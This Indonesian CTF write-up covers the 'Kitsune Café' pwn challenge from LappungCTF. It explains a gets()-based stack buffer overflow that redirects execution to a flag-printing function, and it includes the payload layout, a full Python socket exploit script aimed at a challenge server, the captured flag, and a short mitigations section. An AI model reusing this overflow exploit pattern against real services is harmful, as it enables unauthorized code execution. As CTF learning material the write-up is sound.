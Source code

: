 ```yaml
---
title: "LappungCTF Vol 2.0 - Kitsune Café (PWN)"
date: "2025-10-28"
tags: ["pwn", "ctf", "writeup", "lappungctf"]
summary: "Write-up Kitsune Café — ret2brew, buffer overflow sederhana yang manis seperti kopi."
image: "/blog/LappungCTFVol2.0-KitsuneCafe/image.png"
author: "Erwin Wijaya"
draft: false
featured: true
---
```


## Pendahuluan

Halo! kali ini kita bakalan bahas challenge PWN **Kitsune Café** di LappungCTF.  
Bayangkan sebuah kafe kecil dengan barista ramah — tapi ternyata ada *secret brew* yang cuma akan diseduh kalau kamu bisa memanipulasi programnya. Misi: dapatkan `flag.txt` dengan cara memaksa program memanggil fungsi `brew()` menggunakan buffer overflow sederhana.  

Intinya: `order()` pakai `gets()` → kita overflow stack → overwrite saved return address → loncat ke `brew()` dengan menaruh argumen (pointer ke string literal) di stack. Manis, cepat, dan klasik seperti espresso shot.

---

## Ringkasan singkat exploit

1. `order()` memakai `gets()` ke buffer lokal (`s[68]`) tanpa batas → **vulnerable**.
2. `brew(char *s1, char *s2)` akan membuka `flag.txt` *jika* `strcmp(s1, "Foxfire Blossom")==0` **dan** `strcmp(s2, "Moonlit Ginseng")==0`.
3. Kita menimpa saved EIP sehingga program `ret` ke `brew()`, lalu meletakkan:
   - 4 byte dummy sebagai filler (agar argumen align setelah prolog fungsi),
   - pointer ke `"Foxfire Blossom"`,
   - pointer ke `"Moonlit Ginseng"`.
4. `brew()` dieksekusi dengan argumen yang tepat → `fopen("flag.txt","r")` → isi flag dicetak.

---

## Detail teknis (yang saya utak‑atik)

Saya buka binary dengan `strings`/`objdump` dan decompiler. Yang penting ditemukan:

- Alamat fungsi `brew`: `0x08048661`
- Alamat string `"Foxfire Blossom"`: `0x08048a20`
- Alamat string `"Moonlit Ginseng"`: `0x08048a30`
- Buffer di `order()` adalah 68 byte, tapi offset ke saved return (dari awal buffer) yang benar teruji adalah **76** bytes (karena saved EBP ikut tenggang).

**Kenapa perlu filler (4 bytes)?**  
Karena kita melakukan `ret` *langsung* ke alamat `brew`. Saat `brew` masuk, prolog fungsi `push ebp; mov ebp, esp` akan mendorong stack 4 byte. Agar argumen `char *s1` dan `char *s2` berada di `[ebp+8]` dan `[ebp+12]` setelah prolog, kita harus menyisipkan filler 4 byte *setelah* alamat `brew` pada payload kita. Tanpa filler, argumen bergeser dan strcmp gagal → `Recipe mismatch`.

---

## Payload & Layout (little-endian, 32-bit)

```
"A" * 76
p32(0x08048661)    # overwrite saved EIP -> brew()
p32(0x41414141)    # dummy filler (return value untuk brew)
p32(0x08048a20)    # pointer -> "Foxfire Blossom"
p32(0x08048a30)    # pointer -> "Moonlit Ginseng"
```

Setelah payload dikirim melalui `gets()`, `brew()` akan menerima argumen yang tepat dan mencetak flag.

---

## Exploit (PoC) — `solv.py`

Simpan script ini lalu jalankan `python3 solv.py`.

```python
#!/usr/bin/env python3
# solv.py — ret2brew exploit for Kitsune Café
from struct import pack
from time import sleep
import socket

HOST = "43.157.205.115"
PORT = 7112

BREW = 0x08048661
FOX  = 0x08048a20
MOON = 0x08048a30
OFFSET = 76

def p32(x): return pack("<I", x)

payload  = b"A" * OFFSET
payload += p32(BREW)         # EIP -> brew()
payload += p32(0x41414141)   # filler -> aligns args after push ebp
payload += p32(FOX)          # arg1 -> "Foxfire Blossom"
payload += p32(MOON)         # arg2 -> "Moonlit Ginseng"
payload += b"\n"

def recv_all(s, timeout=0.5):
    s.settimeout(timeout)
    data = b""
    try:
        while True:
            chunk = s.recv(4096)
            if not chunk: break
            data += chunk
    except:
        pass
    return data

with socket.create_connection((HOST, PORT), timeout=10) as s:
    print(recv_all(s).decode(errors="ignore"))   # menu/banner
    s.sendall(b"1\n")                            # choose Order
    sleep(0.05)
    print(recv_all(s).decode(errors="ignore"))   # prompt
    s.sendall(payload)                           # send exploit
    sleep(0.2)
    print(recv_all(s, 1.0).decode(errors="ignore"))
```

---

## Output contoh (hasil saya)
Saat saya jalankan script di env `ctfenv`, outputnya akan seperti ini:

```
(ctfenv) Deb@Rommel:~/CaptureTheFlag/lappung/pwn/kitsune$ python3 solv.py
=====================================
         Welcome to Kitsune Café
           Today's Menu
=====================================
1) Order — put your order
2) Exit  — leave Kitsune Café
=====================================
Choose an option:

[Barista]: Welcome to Kitsune Café.
[Barista]: Our secret brew mixes the fox's flame with the moon's root.
Please enter your order details:

Order received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0
Combining ingredients... checking recipe...
Perfect blend! Brewing the secret brew...

LappungCTF{b0f_c0ff333_ras4_cl4ss1c_ff131}
```


---

## Mitigasi singkat
- **Jangan gunakan `gets()`**. Gunakan `fgets()` dengan panjang buffer yang diawasi.
- Aktifkan **Stack Canaries**, **ASLR/PIE**, dan **NX** untuk menyulitkan exploit klasik.
- Validasi input dan kurangi penggunaan fungsi-fungsi C legacy yang tidak aman.

--- 

**Tags:** #lappungctf #pwn #ctf
